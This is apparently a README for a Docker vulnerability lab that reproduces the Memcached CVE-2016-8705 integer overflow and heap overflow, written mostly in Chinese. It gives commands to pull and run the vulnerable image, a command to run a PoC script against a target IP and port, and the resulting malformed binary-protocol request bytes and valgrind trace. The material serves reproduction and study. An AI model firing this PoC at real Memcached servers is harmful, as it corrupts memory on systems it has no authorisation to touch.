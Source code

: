```yaml
---
layout: post
title: "Memcached Server UPDATE 远程代码执行漏洞(CVE-2016-8705)"
date: 2017-03-10 00:15:16 +0800
image: '/assets/img/'
description: 'Multiple integer overflows in processbinupdate function which is responsible for processing multiple commands of Memcached binary protocol can be abused to cause heap overflow and lead to remote code execution.'
main-class: 'hole'
color: '#B31917'
tags:
- Memcached
- RCE
categories:
- Memcached
twitter_text: 'Multiple integer overflows in processbinupdate function which is responsible for processing multiple commands of Memcached binary protocol can be abused to cause heap overflow and lead to remote code execution.'
introduction: 'Multiple integer overflows in processbinupdate function which is responsible for processing multiple commands of Memcached binary protocol can be abused to cause heap overflow and lead to remote code execution.'
---
```


### 说明

 感谢 [@xing-xiao](https://github.com/xing-xiao) 提供原始环境。 #6

### 漏洞信息

 * [CVE-2106-8705漏洞信息](http://www.talosintelligence.com/reports/TALOS-2016-0220/)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:m_memcached_CVE-2016-8705
 ```

2. 启动环境
 ```bash
$ docker run -d -p 11211:11211 medicean/vulapps:m_memcached_CVE-2016-8705
 ```

 > 如果需要追溯堆栈，需在启动时 valgrind 调试 memcached，则启动环境命令如下：

 ```bash
$ docker run -i -t -u root -p 11211:11211 medicean/vulapps:m_memcached_CVE-2016-8705 /valgrind.sh
 ```
 
### 使用国内阿里云镜像

1. 拉取镜像到本地
 ```bash
$ docker pull registry.cn-hangzhou.aliyuncs.com/lo0o/memcached:1.4.32
 ```

2. 启动环境
 ```bash
$ docker run -d -p 11211:11211 registry.cn-hangzhou.aliyuncs.com/lo0o/memcached:1.4.32
 ```

### PoC

1.获取目标 IP 地址与端口号，如：192.168.100.2 端口号为 11211

2.执行 poc.py

```bash
$ python poc.py 192.168.100.2 11211
```

3.查看追溯堆栈结果

```
36: Client using the binary protocol
<36 Read binary protocol data:
<36    0x80 0x02 0x00 0xfa
<36    0x08 0x00 0x00 0x00
<36    0xff 0xff 0xff 0xd0
<36    0x00 0x00 0x00 0x00
<36    0x00 0x00 0x00 0x00
<36    0x00 0x00 0x00 0x00
36: going from conn_parse_cmd to conn_nread
<36 ADD AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA Value len is -306
==8== Thread 3:
==8== Invalid write of size 8
==8==    at 0x4C326CB: memcpy@@GLIBC_2.14 (in /usr/lib/valgrind/vgpreload_memcheck-amd64-linux.so)
==8==    by 0x4132C8: memcpy (string3.h:53)
==8==    by 0x4132C8: do_item_alloc (items.c:238)
==8==    by 0x40A15A: process_bin_update (memcached.c:2222)
==8==    by 0x40A15A: complete_nread_binary (memcached.c:2427)
==8==    by 0x40A15A: complete_nread (memcached.c:2484)
==8==    by 0x40D367: drive_machine (memcached.c:4656)
==8==    by 0x4E47A0B: event_base_loop (in /usr/lib/x86_64-linux-gnu/libevent-2.0.so.5.1.9)
==8==    by 0x414874: worker_libevent (thread.c:380)
==8==    by 0x52A26B9: start_thread (pthread_create.c:333)
==8==  Address 0x5d1ae90 is 0 bytes after a block of size 1,048,512 alloc'd
==8==    at 0x4C2DB8F: malloc (in /usr/lib/valgrind/vgpreload_memcheck-amd64-linux.so)
==8==    by 0x40F9DF: memory_allocate (slabs.c:538)
==8==    by 0x40F9DF: do_slabs_newslab (slabs.c:233)
==8==    by 0x40FA6E: do_slabs_alloc (slabs.c:328)
==8==    by 0x41007E: slabs_alloc (slabs.c:584)
==8==    by 0x4131E6: do_item_alloc (items.c:180)
==8==    by 0x40A15A: process_bin_update (memcached.c:2222)
==8==    by 0x40A15A: complete_nread_binary (memcached.c:2427)
==8==    by 0x40A15A: complete_nread (memcached.c:2484)
==8==    by 0x40D367: drive_machine (memcached.c:4656)
==8==    by 0x4E47A0B: event_base_loop (in /usr/lib/x86_64-linux-gnu/libevent-2.0.so.5.1.9)
==8==    by 0x414874: worker_libevent (thread.c:380)
==8==    by 0x52A26B9: start_thread (pthread_create.c:333)
==8==
```

> 注意：
>
> 该 PoC 并不会造成服务端崩溃。

### Exp

> 暂无命令执行 Exp，如果你愿意分享该 Exp 可向本仓库发起 [Pull Request](https://github.com/Medicean/VulApps/compare)
